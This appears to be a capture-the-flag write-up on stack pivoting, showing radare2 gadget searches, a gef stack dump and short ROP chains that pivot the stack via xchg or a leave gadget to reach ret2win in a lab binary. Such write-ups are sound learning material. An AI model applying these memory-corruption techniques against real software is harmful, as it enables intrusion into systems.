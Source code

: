 with r2 we find a pop rsp gadget :

      [0x00400847]> /R pop rsp
      0x00400a2d                 5c  pop rsp
      0x00400a2e               415d  pop r13
      0x00400a30               415e  pop r14
      0x00400a32               415f  pop r15
      0x00400a34                 c3  ret

But it will use 4 entries on the stacks.

we can also use a xchg gadget

      0x004009be : xchg eax, esp ; ret

To use it we will do

      - pop eax
      - @pivot
      - xchg eax, esp ; ret

|address   | comment |
|----------|--------------|
|0x04009bb | pop rax ; ret |
|leak | pivot stack adresse|
|0x004009be | xchg eax, esp ; ret |

This chaine take the 3 avalable slots. Il will work.

An other way is to use the frequently present leave instruction.
leave do :
- mov rsp, rbp
- pop rbp
We've just overwritten the value of srbp with content we control.
An and the leave of pwnme put this value in rbp.

we can set :


      gef➤  x/8xg $rsp
      0x7fffffffe190:	0x0000000000000000	0x00007ffff7bd8f10
      0x7fffffffe1a0:	0x4141414141414141	0x4242424242424242
      0x7fffffffe1b0:	0x4343434343434343	0x4444444444444444
      0x7fffffffe1c0:	[pivot address-8 ]	[leave gadget    ]
                     []


Note the - 8 on pivot address because of the "pop rbp" (by leave)

At the end of the overflow string we add : "leeked pivot stack adresse" - 8

And the ROP chain is simple *ret2win*

|address   | comment |
|----------|--------------|
|0x004009a6 | leave |
